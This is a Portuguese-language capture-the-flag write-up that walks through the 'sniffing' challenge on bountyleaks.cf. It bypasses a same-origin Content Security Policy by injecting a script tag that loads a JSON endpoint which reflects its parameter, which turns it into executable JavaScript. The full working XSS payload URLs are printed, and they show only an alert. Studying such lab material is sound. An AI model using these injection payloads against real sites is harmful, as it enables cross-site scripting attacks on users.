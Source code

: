 ### Resolução do desafio sniffing

1. Acessamos o endereço do desafio: https://bountyleaks.cf/challenge/sniffing.php
2. Um redirecionamento é feito para https://bountyleaks.cf/challenge/sniffing.php?message=You%20was%20successfully%20logged%20out
3. Se alterarmos o texto, inclusive com tags html, vemos que ela é refletida na página:
[https://bountyleaks.cf/challenge/sniffing.php?message=<button>Teste</teste>](https://bountyleaks.cf/challenge/sniffing.php?message=&lt;button&gt;Teste&lt;/teste&gt;)
4. Mas, se tentarmos triggar um XSS com ```<script>alert(document.domain)</script>``` o alerta não é triggado. Por quê?
4.1 Para entender essa questão, acesse https://bountyleaks.cf/challenge/sniffing.php?message=<script>alert(document.domain)</script> e abra o console do navegador, apertando ctrl + shit + i e clicando na aba console
4.2 Observe o erro retornado pelo navegador devido à tentativa de execução de script nessa página:
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' sha256-Cn8Hzq+wmgPb5X2xqCqolSgXTEGPQNOsUufW22rF2Pg='". Either the 'unsafe-inline' keyword, a hash ('sha256-X6WoVv8sUlFXk0r+MI/R+p2PsbD1k74Z+jLIpYAjIgE='), or a nonce 'nonce-...') is required to enable inline execution.
4.3 O erro relata que o script não foi possível executar devido à política CSP vigente nessa aplicação.
O que faz sentido, pois ao vermos o código fonte da página, vemos o CSP declarado começando assim:
<meta http-equiv="Content-Security-Policy" content="base-uri 'self'; default-src 'self'; script-src 'self'
4.4 Repare que na parte de scripts, somente existe o valor 'self', ou seja, caso formos inserir qualquer <script src='url'> a url obrigatoriamente precisa ter a mesma origem do site acessado, devido ao parâmetro "self" (portanto bountyleaks.cf)
4.5 Outra observação interessante é que não existe o valor unsafe-inline, desse forma qualquer xss inline não será executado pois não foi de forma descrita liberado.
XSS como <script>alert(1)</script>, <img src=x onerror=alert()> não serão executados, exibindo erro de CSP no console tambem.
5. Sabemos então, que com o atual contexto, não conseguiremos triggar um xss usando o parâmetro message  (https://bountyleaks.cf/challenge/sniffing.php?message=)
6. Olhando mais o site, vemos que um script é importado de uma outra página:
<script src='/version.php'></script>
7. Você entende agora por que esse script não é bloqueado pelo CSP? Pois ele atende ao requisito do CSP, uma vez que se encaixa no contexto 'self', sendo de mesma origem, pois seu endereço é https://bountyleaks.cf/challenge/version.php
8. Ao abrirmos a página version.php vimos a principio um JS.
9.  Caso façamos um fuzzing de parametros nessa página (https://bountyleaks.cf/challenge/version.php?FUZZ=teste, descobrimos que existe um parametro que reflete na página: version
10. Portanto, https://bountyleaks.cf/challenge/version.php?version=<script>alert(1337)</script>, refletirá na página o payload
11. Pronto, achamos um XSS nessa página? Hm, também não. Por quê? Por que a página se você ver a resposta da página, verá que ela possui content-type application/json. Dessa forma, o conteúdo da página não está sendo tratado como um javascript, ou como html. O navegador não irá renderizar tags a fim de criar um alerta.
12. Agora chega o momento que devemos pensar que :
- Temos a página sniffing com o parametro message sendo refletido, podendo injetar html, mas o CSP exige que a tag script tenha mesma origem no parametro src
- Temos uma página (de mesma origem) que reflete o conteudo de um parâmetro, mas seu content-type é application/json
13. Dessa forma, podemos incluir a segunda página na primeira (embedding), usando a tag <script>.
13.1 Vamos primeiro fazer uma modificação na segunda página para vocês verem que será refletida na primeira:
https://bountyleaks.cf/challenge/version.php?version=123%27,%27teste%27:%271

Veja que criamos uma nova chave e valor no JSON da página, chamado teste

13.2 Agora, vamos incluir essa URL na primeira página, ficando assim:
https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527,%2527teste%2527:%25271337%27></script><!--

- Nesta URL fizemos algumas modificações:
alteramos a aspas simples (%27) para double encoding (%2527), não para bypassar algo, mas se você visse no código fonte, veria que caso não o fizessemos, quebraria a estrutura da pagina
- A fim de demonstrar o cenário refletido, acrescemos um <!-- ao final, o que comentará todo o resto da página (desabilitando suas execuções posteriores). A explicação é que estamos incluindo a página /version.php dentro de um script, com argumentos nossos.
Mas logo a baixo, existe um outro <script src='version.php'> (nativo da página). Isto sobrescreveria nossos valores, e no momento quero mostrar para vocês que os valores estão refletindo, antes de triggar o XSS.

13.3 Após acessar a URL do item 13.2, abrimos o console do navegador e digitamos app.teste
Veja que o valor 1337 é retornado
13.4 Conseguimos incluir um script arbitrário! Agora só falta modificá-lo para ser um xss!

14. Sabendo que a chave pra resolver o desafio é manipular a segunda página para quando for processada pela primeira em formado de Javascript, vamos criar a segunda URL dessa forma:

https://bountyleaks.cf/challenge/version.php?version=123%27};alert(document.domain)//

E incluiremos na primeira página, ficando dessa forma:

https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527};alert(document.domain)//%27></script>

15. Desafio resolvido \o/

Você acaba de bypassar duas convicções dos desenvolvedores:

que o CSP da primeira página por ser de mesma origem é seguro e que usando o content-type application/json nunca abre margem para um xss (aqui usamos uma tecnica chamada content sniffing ou mime sniffing)

